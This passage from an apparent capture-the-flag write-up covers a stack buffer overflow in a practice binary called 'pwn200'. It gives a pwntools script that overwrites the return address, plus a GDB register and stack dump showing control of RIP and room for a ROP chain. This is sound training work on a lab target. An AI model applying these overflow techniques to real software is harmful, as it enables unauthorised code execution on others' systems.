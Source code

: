 Once again, I found out that sending a long enough string to the cereal flavor input would cause the program to crash when you eat it. Although, this time the offset was slightly different.

```python
#!/usr/bin/env python3
from pwn import *

p = process("./pwn200")
gdb.attach(p, "c")

p.sendline("1")
payload = b"A"*120
payload += b"BBBBBBBB"
payload += b"CCCCCCCC"
payload += b"DDDDDDDD"
p.sendline(payload)

p.sendline("3")
p.interactive()
```

As you can see from GDB below, not only was I able to overwrite `RIP` with this script, but this time, I was also able to write more data to the stack. This means that ROP chains can be used for this attack.
```sh
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x15
$rbx   : 0x0
$rcx   : 0x00007f08250e7ed3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007ffe92638b18  →  "BBBBBBBBCCCCCCCCDDDDDDDD"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007f08251b8723  →  0x1ba670000000000a
$rdi   : 0x00007f08251ba670  →  0x0000000000000000
$rip   : 0x0000000000400981  →  <add_cereal+162> ret
$r8    : 0x15
$r9    : 0x00007ffe92638c10  →  "Bowl, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r10   : 0x1b
$r11   : 0x246
$r12   : 0x0000000000400750  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffe92638b18│+0x0000: "BBBBBBBBCCCCCCCCDDDDDDDD"   ← $rsp
0x00007ffe92638b20│+0x0008: "CCCCCCCCDDDDDDDD"
0x00007ffe92638b28│+0x0010: "DDDDDDDD"
0x00007ffe92638b30│+0x0018: 0x000000006c770000
0x00007ffe92638b38│+0x0020: 0x35ca06701eb30600
0x00007ffe92638b40│+0x0028: 0x00007f08251b7980  →  0x00000000fbad2088
0x00007ffe92638b48│+0x0030: 0x00007f08251b94a0  →  0x0000000000000000
0x00007ffe92638b50│+0x0038: 0x0000000000400750  →  <_start+0> xor ebp, ebp
──────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40097a <add_cereal+155> call   0x4006b0 <puts@plt>
     0x40097f <add_cereal+160> nop
     0x400980 <add_cereal+161> leave
 →   0x400981 <add_cereal+162> ret
[!] Cannot disassemble from $PC
```